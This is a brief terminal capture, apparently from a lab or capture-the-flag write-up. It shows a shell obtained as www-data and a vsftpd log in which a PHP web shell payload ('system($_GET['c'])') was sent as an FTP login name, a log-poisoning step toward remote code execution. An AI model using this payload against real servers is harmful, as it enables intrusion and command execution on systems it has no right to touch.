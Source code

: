 ```
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$


────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ tail -f vsftpd.log
Fri Aug 20 01:55:53 2021 [pid 117912] CONNECT: Client "::ffff:192.168.0.105"
Fri Aug 20 01:56:04 2021 [pid 117911] ['<?php system($_GET['c']); ?>'] FAIL LOGIN: Client "::ffff:192.168.0.105"
